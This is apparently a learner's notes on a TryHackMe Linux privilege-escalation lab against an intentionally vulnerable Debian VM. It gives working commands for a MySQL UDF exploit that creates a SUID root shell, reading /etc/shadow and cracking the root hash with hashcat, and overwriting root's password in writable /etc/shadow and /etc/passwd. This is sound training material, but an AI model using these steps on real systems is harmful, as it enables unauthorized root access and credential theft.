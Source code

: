 Task 1: Deploy the Vulnerable Debian VM 
```
This room is aimed at walking you through a variety of Linux Privilege Escalation techniques. To do this, you must first deploy an intentionally vulnerable Debian VM. This VM was created by Sagi Shahar as part of his local privilege escalation workshop but has been updated by Tib3rius as part of his Linux Privilege Escalation for OSCP and Beyond! course on Udemy. Full explanations of the various techniques used in this room are available there, along with demos and tips for finding privilege escalations in Linux.

Make sure you are connected to the TryHackMe VPN or using the in-browser Kali instance before trying to access the Debian VM!

SSH should be available on port 22. You can login to the "user" account using the following command:

ssh user@10.10.106.19

If you see the following message: "Are you sure you want to continue connecting (yes/no)?" type yes and press Enter.

The password for the "user" account is "password321".

The next tasks will walk you through different privilege escalation techniques. After each technique, you should have a root shell. Remember to exit out of the shell and/or re-establish a session as the "user" account before starting the next task!
```
## run id command
```console
$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

# Task 2 Service Exploits
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service


To check if mysql is runing as roo run: ```ps -u root | grep mysql```. The guide for this task is clear so I will not copy past stuff here. just gona write what I need to remember from this task. It might be helpful for me in the future:
1. download the exploit from the link above
2. complie the exploit by
```console
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
3. now run as mysql as root ```mysql -u rooot```
4. Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our exploit:
```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
5. Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission, then exit mysql
```mysql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
exit
```
6. run the /tmp/rootbash executable with -p to gain a shell running with root privileges: 
```console
$ /tmp/rootbash -p
rootbash-4.1# whoami
root
rootbash-4.1# rm /tmp/rootbash
```

damnnnnn. The last command is removeing the the script. dont for get to romove it guys!!

# TASK 3: Weak File Permissions - Readable /etc/shadow 
```console
user@debian:~$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```
on my kali
```console
kali@kali:~/LinuxPrivEsc$ echo "root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::" > root.txt
kali@kali:~/LinuxPrivEsc$ hashcat -a 0 -m 1800 -o cracked.txt root.txt /usr/share/wordlists/rockyou.txt --force
kali@kali:~/LinuxPrivEsc$ cat cracked.txt 
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:XXXXXXXXXXX
```
find out what XXXXXXXX is :P. GLHF

# Weak File Permissions - Writable /etc/shadow 
```console
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```
damn we have write permission
```console
user@debian:~$ mkpasswd -m sha-512 kurohatwashere
$6$G5cFZMg03v81$/MHuRxqSlP8yFCqHOFIfQRXPwsor32wwUoPdE791lONV7YaviZQKi830I0TLuGj/kOj6OO9XI78Vx4CpYUGST0
user@debian:~$ nano /etc/shadow # replace root password (from 1st : to 2nd :) with the generated password
user@debian:~$ su root
Password: 
root@debian:/home/user# whoami 
root
```

# Weak File Permissions - Writable /etc/passwd
```console
user@debian:~$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~$ openssl passwd gu2washere
Warning: truncating password to 8 characters
p7WxO7eoMHzVY
user@debian:~$ nano /etc/passwd # replace hash between 1st colon and 2 colon (replacing the "x") with the genarated password
user@debian:~$ su root
Password: 
root@debian:/home/user# whoami
root
```

another way to do it is create a new root user in ```/etc/passwd``` by copy the root row and append it to the buttom of the file. Change the password (replace "x" or put the genarated password between 1st and 2nd colon) and change the user name. the run ```su newroot``` to get ROOT















